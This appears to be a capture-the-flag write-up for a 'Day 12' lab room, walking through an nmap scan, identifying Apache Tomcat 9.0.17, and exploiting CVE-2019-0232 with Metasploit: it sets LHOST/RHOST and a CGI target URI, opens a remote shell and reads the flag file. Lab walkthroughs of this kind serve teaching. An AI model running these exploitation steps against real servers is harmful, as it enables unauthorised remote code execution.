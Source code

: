 # Day12

## Ready, set, elf.

Deploy the machine and go through the given information!

First step, let’s run an nmap scan! Here i am running this with ***-Pn -A*** so that it shows the versions also

`nmap -Pn -A 10.10.183.54`

![57](https://user-images.githubusercontent.com/83836972/122556469-29fc4f00-d059-11eb-9544-ceb3737b4cf1.PNG)

Also, in front of ***http-proxy***,  ***Apache Tomcat 9.0.17*** will be shown which is the ***type and version of web-server***

Alternative to this is, you can have a look at port 8080, which will show a webserver like below:

![58](https://user-images.githubusercontent.com/83836972/122556473-2ec10300-d059-11eb-81bb-0c87cef367ff.PNG)

Here the answer to the question 1 is done, let's move onto the next one!

For the next question, you've to ***google the CVE***, and it's very easy to find, so surf the net!

For the next questions, open ***Metasploit***

Search for CVE number, i.e. search ***2019-0232***

Now we must ***set up our hosts***. This can be done pretty simply by setting LHOST to the IP of our PC and the RHOSTS to the IP of the target machine:

`set LHOST 10.17.5.246`

`set RHOST 10.10.183.54`

`set TARGETURI http://10.10.183.54/cgi-bin/elfwhacker.bat`

After setting the hosts, just ***run*** that using `run` and also to use system commands on host, we'll use ***shell***, which is also written in the dossier, so just give the command `shell`.

If you search for the directories using `dir`, you'll see the following:

![59](https://user-images.githubusercontent.com/83836972/122556484-341e4d80-d059-11eb-9e14-0b190b408f23.PNG)

Now just, get the flag using `type flag1.txt`




